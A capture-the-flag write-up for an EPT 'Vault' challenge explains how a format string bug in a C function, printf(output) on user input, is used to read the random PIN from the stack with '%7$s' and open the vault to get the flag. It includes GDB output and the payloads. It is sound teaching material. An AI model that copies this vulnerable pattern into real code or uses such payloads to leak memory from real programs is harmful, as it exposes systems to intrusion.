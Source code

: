 # Vault
<p align="center">
    <img src="img/vault_chall.png" alt="Challenge" width="500"/>
</p>

In addition to the binary for the program, we are given its source code, [vault.c](./vault.c)


The program simulates a vault, where we can add, remove, and list items, as well as read the flag. However, to perform any of those operations we need to open the vault, which involves guessing a random 5-byte PIN set each time the program runs.

When we try to open the vault by guessing its PIN this is the function that checks if we have given the correct PIN:
```c
bool checkPIN(char *pin) {
    char enteredPIN[PIN_LENGTH];
    printf("Enter your PIN to access the vault: ");
    fgets(enteredPIN, PIN_LENGTH, stdin);
    enteredPIN[strcspn(enteredPIN, "\n")] = '\0';
    if (strcmp(pin, enteredPIN) == 0) {
        return true;
    }
    char output[100];
    sprintf(output, "the pin %s is not correct", enteredPIN);
    printf(output);
    return false;
}
```


The function has a format string vulnerability in `printf(output);`, which among other things allow us to read memory from the stack. Because the `pin` variable (an array of bytes) is stored on the stack in `main` we should be able to find its memory address using format strings, given that we find the correct offset. With the format specifier `%s` we should then be able to read what the vaults PIN is (`%s` prints what is stored at the address at the given offset, contrary to `%p` which prints the address).

To find the offset to the stack address of `pin` we can set a breakpoint on the `strcmp` in `checkPIN` in GDB. The stack address will be stored in the `rdi` register.
```
RAX  0x7fffffffdeec ◂— '5e8f2673cf'
RBX  0
RCX  7
RDX  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
RDI  0x7fffffffdeec ◂— '5e8f2673cf'
RSI  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
R8   0x5555555560b0 ◂— 0x74000a00203a746c /* 'lt: ' */
R9   0
R10  0x555555556090 ◂— 'Enter your PIN to access the vault: '
R11  0x246
R12  0x7fffffffe018 —▸ 0x7fffffffe2cb ◂— '/home/loevland/ctf/ept/pwn/vault/the-vault/vault'
R13  0x5555555558c0 (main) ◂— endbr64
R14  0x555555557d40 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555300 (__do_global_dtors_aux) ◂— endbr64
R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
RBP  0x7fffffffdec0 —▸ 0x7fffffffdf00 ◂— 1
RSP  0x7fffffffde30 ◂— 0xa /* '\n' */
RIP  0x5555555555a4 (checkPIN+125) ◂— call 0x5555555551e0

─────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────
 ► 0x5555555555a4 <checkPIN+125>    call   strcmp@plt                  <strcmp@plt>
        s1: 0x7fffffffdeec ◂— '5e8f2673cf'
        s2: 0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
```

So we know that the PIN is stored at the address `0x7fffffffdeec` (the exact address will change between each run), so now we can use the format string vulnerability to find the offset on the stack where this value is located. We use the format string `%X$p`, where `X` is an integer offset, to specify where on the stack we read from.
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$p %8$p
the pin 0x7fffffffdeec 0x70243725f7fa5780 is not correct
```

After some trial and error (with numbers 1-6) we see that the address of `pin` is stored at offset `7`. This means that if we use the format string `%7$s` the program will print the bytes stored at this address, which is the pincode!
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$s
the pin 5e8f2673cf is not correct
```

Now that we have leaked the pin we can open the vault and read the flag (note that neither option 2, 3, 4, or 6 is required to get the flag in this challenge).
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: 5e8f2673cf
Vault opened successfully.

--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 5
gj! the flag is EPT{find_th3_p1n_f1nd_th3_fl4g}
```